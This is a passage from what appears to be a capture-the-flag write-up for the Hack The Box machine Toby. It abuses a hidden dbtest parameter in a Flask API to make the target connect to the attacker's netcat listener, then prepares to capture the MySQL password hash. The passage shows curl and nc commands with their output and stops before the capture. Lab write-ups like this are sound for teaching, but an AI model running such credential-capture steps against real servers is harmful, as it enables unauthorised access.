     app = Flask(__name__, static_folder="", static_url_path="/static")
                                                                        
    def validate_ip(ip):
            try:                                
                    if "/" in ip:
                            raise ValueError("Please no netmasks!")
                    _ = ipaddress.ip_address(ip)
            except Exception as e:
                    return False
            return True
    
    ## API START
                                                                        
    # NOT FOR PROD USE, USE FOR HEALTHCHECK ON DB
    ...[snip]...
    

It matches what I already have. I looked for other files like a `.env`, but
came up empty.

### Get jack’s Password

#### Get MySQL Hash

The `/api/dbtest` function will try to connect to the MySQL host using these
creds:

    
    
    www-data@wordpress:/var/www/html$ curl personal.toby.htb/api/dbtest
    mysql: [Warning] Using a password on the command line interface can be insecure.
    ERROR 1045 (28000): Access denied for user 'jack'@'172.69.0.104' (using password: YES)
    

It fails, but I do learn the username is jack.

I noted above that the dbtest function should connect somewhere else if I give
it a valid IP. I’ll try:

    
    
    www-data@wordpress:/var/www/html$ curl personal.toby.htb/api/dbtest?secretdbtest_09ef=10.10.14.6
    

This hangs, but at `nc` on my host listening on 3306 (MySQL), there’s a
connection:

    
    
    oxdf@hacky$ nc -lnvp 3306
    Ncat: Version 7.92 ( https://nmap.org/ncat )
    Ncat: Listening on :::3306
    Ncat: Listening on 0.0.0.0:3306
    Ncat: Connection from 10.10.10.140.
    Ncat: Connection from 10.10.10.140:44630.
    

I had a similar challenge in [Kryptos](/2019/09/21/htb-kryptos.html#auth-
bypass) a long time ago, and I showed how I can use Wireshark to capture the
hash and salts. I’ll follow the same procedure. On Parrot, I had to install it
with `sudo apt install mariadb-server`. Then I’ll start it with `sudo service
mysql start`. I can confirm it’s listening on 3306:
